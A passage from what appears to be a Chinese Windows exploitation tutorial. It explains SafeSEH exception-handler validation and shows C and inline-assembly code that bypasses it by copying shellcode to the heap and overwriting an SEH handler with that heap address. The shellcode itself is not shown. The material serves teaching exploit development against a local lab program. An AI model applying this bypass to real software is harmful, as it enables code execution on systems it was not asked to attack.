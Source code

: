 *   判断异常处理函数地址是否位于不可执行页上。当异常处理器函数地址位于不可执行页上时，校验函数将检测 DEP 是否开启，如果系统未开启 DEP 则返回校验成功，否则程序抛出违例的异常
    
*   判断系统是否允许跳转到加载模块的内存空间外执行，如果允许则返回校验成功，否则返回校验失败
    

下图是 RtlDispatchException 函数的校验流程：  

![](https://bbs.pediy.com/upload/attach/202201/835440_9EFC9V3NF3HRTKK.jpg)

由于 SafeSEH 机制的存在，上述的漏洞利用方式就会无效。程序在检测到异常处理函数的异常以后，将会直接退出程序，而不会去执行 ShellCode。所以，要想成功利用漏洞，就需要绕过 SafeSEH 机制。  

3. 从堆中绕过 SafeSEH
----------------

由于当异常处理函数指向堆中的内存地址的时候，不会触发 SafeSEH 机制。因此，可以通过将 ShellCode 复制到堆中，同时将异常处理函数覆盖为保存了 ShellCode 的堆地址的方式来绕过 SafeSEH 机制，触发漏洞。  

此时的漏洞利用代码如下：

```
int main()
{
    char *buf = (char *)malloc(100);
    char szInput[0x100] = { 0 };
    int iJunkLen = 0x18;
     
    LoadLibrary("user32.dll");            // MessageBox函数在该中，需要将其导入才可以调用
     
    // 将ShellCode复制到堆中
    memset(buf, 0, 100);         
    strcpy(buf, g_szShellCode);
 
    memset(szInput, 'A', iJunkLen);         // 覆盖异常处理函数之前的数据
    *(PDWORD)(szInput + iJunkLen) = (DWORD)buf;   // 将异常处理函数修改为申请的堆的地址
     
    // 注册异常处理器
    __asm
    {
        push except_handler        // 处理器结构指针
        push fs:[0]            // 前一个结构化异常处理器的地址
        mov fs:[0], esp       // 登记新的结构
    }
     
    test(szInput);
     
    // 销毁异常处理器
    __asm
    {
        mov eax, [esp]        // 从栈顶取得前一个异常登记结构的地址
        mov fs:[0], eax       // 将前一个异常结构的地址赋给
        add esp, 8            // 清理栈上的异常登记结构
    }
 
    system("pause");
 
    return 0;
}

```
